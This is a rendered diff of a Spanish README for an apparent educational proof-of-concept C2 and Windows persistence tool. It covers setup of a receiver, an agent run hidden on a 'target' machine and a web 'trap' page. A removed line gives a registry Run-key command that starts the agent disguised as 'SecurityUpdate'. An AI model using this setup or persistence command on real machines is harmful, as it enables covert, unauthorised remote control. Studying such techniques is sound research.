

Before and after one commit to xalexlopez00/Offensive-Research, a Markdown page: Persistence-PoCs/Network-Shield-System/readme.md, the part around one of its changes. Shown at 95% size. Rendered like a GitHub page; badges without logos; blank space fills up the shorter version.

```diff
--- a/Persistence-PoCs/Network-Shield-System/readme.md
+++ b/Persistence-PoCs/Network-Shield-System/readme.md
@@ -14,53 +14,54 @@
 
 Este proyecto es una **Prueba de Concepto (PoC)** diseñada para estudiar el funcionamiento de los sistemas de administración remota (C2) y las técnicas de persistencia en entornos Windows.
 
-**⚠️ AVISO LEGAL:** Este software ha sido creado exclusivamente con fines educativos e investigación en ciberseguridad. El autor no se hace responsable del mal uso de este código.
+**⚠️ AVISO LEGAL:** Este software ha sido creado exclusivamente con fines educativos e investigación en ciberseguridad. El autor no se hace responsable del mal uso de este código. El uso en sistemas sin autorización es ilegal.
 
 ---
 
 ## 🛠️ Requisitos del Sistema
 
-* **XAMPP**: Servidor Apache y MySQL (MariaDB) instalados.
-* **Python 3.x**: Instalado y configurado en el PATH.
-* **Librerías**: Ejecuta **pip install requests** en tu terminal.
-* **Base de Datos**: Importar el esquema incluido en **server/db.txt**.
+* **XAMPP**: Servidor Apache y MySQL (MariaDB) instalados y activos.
+* **Python 3.x**: Debe estar instalado y configurado correctamente en el PATH del sistema.
+* **Librerías**: Es necesario ejecutar `pip install requests` en la terminal antes de iniciar.
+* **Base de Datos**: Se debe importar el esquema SQL incluido en el archivo `server/db.txt`.
 
 ---
 
 ## 🚀 Guía de Instalación y Configuración
 
 ### 1. Preparación de la Base de Datos
-1. Inicia **Apache** y **MySQL** desde el panel de XAMPP.
-2. Accede a **http://localhost/phpmyadmin**.
-3. Crea una base de datos llamada **network_shield_db**.
-4. Importa el contenido de **server/db.txt** en la pestaña **SQL**.
+1. Inicia **Apache** y **MySQL** desde el panel de control de XAMPP.
+2. Accede a la administración local en `http://localhost/phpmyadmin`.
+3. Crea una nueva base de datos llamada `network_shield_db`.
+4. Importa el contenido de `server/db.txt` utilizando la pestaña **SQL**.
 
 ---
 
 ### 2. Configuración del Servidor Web
-1. Mueve la carpeta **Network-Shield-System** a **C:\xampp\htdocs\**.
-2. El panel será accesible en: **http://localhost/Network-Shield-System/server/index.php**.
+1. Mueve la carpeta `Network-Shield-System` a la ruta `C:\xampp\htdocs\`.
+2. El panel de administración será accesible en: `http://localhost/Network-Shield-System/server/index.php`.
 
 ---
 
 ## 📡 Ejecución y Pruebas
 
+Sigue este orden estricto para establecer el enlace entre los componentes:
+
 ### 🟢 Paso 1: Iniciar el Receptor (Master)
-Abre una terminal en la carpeta master/ y lanza el centro de control:
-**python receptor.py**
+Abre una terminal en la carpeta `master/` y lanza el centro de control:
+`python receptor.py`
 
 ---
 
 ### 🔵 Paso 2: Lanzar el Agente (Client)
 Ejecuta el script en el equipo objetivo para iniciar la conexión:
-* **Modo Manual**: python client/agente.py
-* **Modo Invisible**: Usa **agente.pyw** para ejecución sin consola.
-* **Simulación Web**: Accede a **http://localhost/Network-Shield-System/server/trampa.php**
+* **Modo Manual**: `python client/agente.py`
+* **Modo Invisible**: Renombra el archivo a `agente.pyw` y ejecútalo para ocultar la consola.
+* **Simulación Web**: Accede mediante el navegador a `http://localhost/Network-Shield-System/server/trampa.php`.
 
 ---
 
-## 🔐 Implementación de Persistencia
+## 🔐 Integridad y Seguridad (Hash)
 
-### 1️⃣ Instalación (Crear Registro)
-**reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "SecurityUpdate" /t REG_SZ /d "pythonw.exe C:\xampp\htdocs\Network-Shield-System\client\agente.pyw" /f**
+Para verificar que el archivo descargado es original y no ha sido alterado, comprueba su firma digital:
 
```
Also changed, not shown: other parts of Persistence-PoCs/Network-Shield-System/readme.md (+6 -31 lines).
